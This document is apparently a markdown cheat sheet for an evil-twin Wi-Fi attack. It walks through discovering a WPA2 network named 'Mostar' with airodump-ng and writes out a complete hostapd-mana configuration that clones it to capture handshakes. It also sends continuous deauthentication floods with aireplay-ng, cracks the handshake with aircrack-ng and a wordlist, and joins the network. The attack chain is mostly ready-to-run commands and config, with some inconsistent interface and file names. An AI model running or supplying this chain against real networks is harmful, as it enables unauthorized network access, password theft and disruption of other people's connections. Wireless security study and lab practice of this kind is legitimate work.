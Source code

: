 
# Explanation

  Create an AP (access point) which mimics an existing one,
  and look for devices trying to connect to the legitimate AP

  After a client connects to a network this network is saved in the PNL (preferred network list)
  A device will save the ESSID to be able to connect again without asking for a Key.

  When we create an AP with the same ESSID, if our broadcasts a stronger signal, the client to us
  instead of the legitimate one.
  
-----------------------

# Discovery of APs to grab ESSID and encryption details
```bash
sudo airodump-ng -w discovery --output-format pcap wlan1mon
```
 CH 12 ][ Elapsed: 0 s ][ 2020-08-14 16:23 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 ...
 FC:7A:2B:88:63:EF  -53        5        0    0   1  130   WPA2 CCMP   PSK  Mostar
 ...

 Gathered info:
  - *ESSID*       -> Mostar
  - *Encryption*  -> WPA2-PSK
  - *Cipher*      -> CCMP
  - *Mbit*        -> 130
  - *Channel*     -> 1

-----------------------

# Check for extra information
```bash
wireshark discovery-01.cap
```
Find beacon for the target AP: *wlan.fc.type_subtype == 0x08 && wlan.ssid == "Mostar"*
Check for RNS for WPA2 and ciphers
Check for WPA for WPA1 and ciphers
Look at ciphers to add them later 

-----------------------

# Create configuration a Rogue AP with hostapd-mana
```bash
sudo apt install hostapd-mana
```
Create file Mostar-mana.conf with content bellow
```bash
# name of our interface
interface=wlan0

# ESSID of target
ssid=Mostar

# Channel of target
channel=1

# GHz to be st "g"=2.4 "a"=5
hw_mode=g

# Set ieee80211.n to true
ieee80211n=1

# Set support WPA=1 WPA2=2 WPA/WPA2=3
wpa=3

# PSK Authentication
wpa_key_mgmt=WPA-PSK

# Any password
wpa_passphrase=ANYPASSWORD

# WPA1 Encryption if not WPA found in wireshark not needed
wpa_pairwise=TKIP CCMP

# WPA2 Encryption if not RNS found in wireshard not needed
rsn_pairwise=TKIP CCMP

# Output of handshake 
mana_wpaout=/home/typ0/mostar.hccapx
```
-----------------------

# Start hostapd-mana
```bash
sudo hostapd-mana Mostar-mana.conf
```
MANA: Captured a WPA/2 handshake from: fe:5c:f4:2b:d4:3e
wlan0: AP-STA-POSSIBLE-PSK-MISMATCH fe:5c:f4:2b:d4:3e

If we see we get no connections we can deauthenticated the current devices
```bash
sudo airmon-ng start wlan1 1

sudo aireplay-ng -0 0 -a FC:7A:2B:88:63:EF wlan1mon
```
-----------------------

# Cracking handshake written to hccapx file
```bash
aircrack-ng mostar.hccapx -e Mostar -w /usr/share/john/password.list
```
-----------------------

# Connecting to the wifi

Create supplicant conf mostar.conf
```bash
network={
    ssid="SSID HERE"
    psk="PASSWORD HERE"
    scan_ssid=1
    key_mgmt=WPA-PSK
    proto=WPA2
}
```
Connect via supplicant
```bash
sudo wpa_supplicant -D nl80211 -i wlan1 -c wpa.conf
```
On another terminal get an IP from DHCP server
```bash
sudo dhclient wlan2 -v
```
